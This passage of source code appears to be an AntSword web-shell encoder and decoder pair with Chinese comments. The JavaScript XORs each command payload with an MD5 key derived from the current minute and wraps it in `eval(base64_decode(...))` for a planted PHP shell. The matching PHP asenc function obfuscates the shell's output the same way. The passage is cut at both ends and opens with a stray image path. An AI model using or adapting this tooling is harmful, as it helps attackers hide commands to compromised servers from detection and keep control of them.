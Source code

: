 ```javascript
            Object.keys(date).forEach(function (i) {
                if (new RegExp("(" + i + ")").test(time)) {
                    if (RegExp.$1.length == 2) {
                        date[i] < 10 ? date[i] = '0' + date[i] : date[i];
                    }
                    time = time.replace(RegExp.$1, date[i]);
                }
            })
            return time;
        }
    })

    let newDate = new Date();
    let time = newDate.switch('yyyy-MM-dd hh:mm');
    let key = crypto.createHash('md5').update(time).digest('hex')
    key=key.split("").map(t => t.charCodeAt(0));
    //let payload="phpinfo();";
    let cipher = payload.split("").map(t => t.charCodeAt(0));
    for(let i=0;i<cipher.length;i++){
        cipher[i]=cipher[i]^key[i%32]
    }
    cipher=cipher.map(t=>String.fromCharCode(t)).join("")
    cipher=Buffer.from(cipher).toString('base64');
    //console.log(cipher)
    return cipher;
  }

  data['_'] = Buffer.from(data['_']).toString('base64');
  data[pwd] = `eval(base64_decode("${data['_']}"));`;
  data[pwd]=xor(data[pwd]);

  delete data['_'];
  return data;
}
```





解密器

```javascript
'use strict';
//code by yzddmr6
module.exports = {
  /**
   * @returns {string} asenc 将返回数据base64编码
   * 自定义输出函数名称必须为 asenc
   * 该函数使用的语法需要和shell保持一致
   */
  asoutput: () => {
    return `function asenc($out){
      date_default_timezone_set("PRC");
      $key=md5(date("Y-m-d H:i",time()));
      for($i=0;$i<strlen($out);$i++){
          $out[$i] = $out[$i] ^ $key[$i%32];
      }
      return @base64_encode($out);
    }
    `.replace(/\n\s+/g, '');
  },
  /**
   * 解码 Buffer
   * @param {string} data 要被解码的 Buffer
   * @returns {string} 解码后的 Buffer
```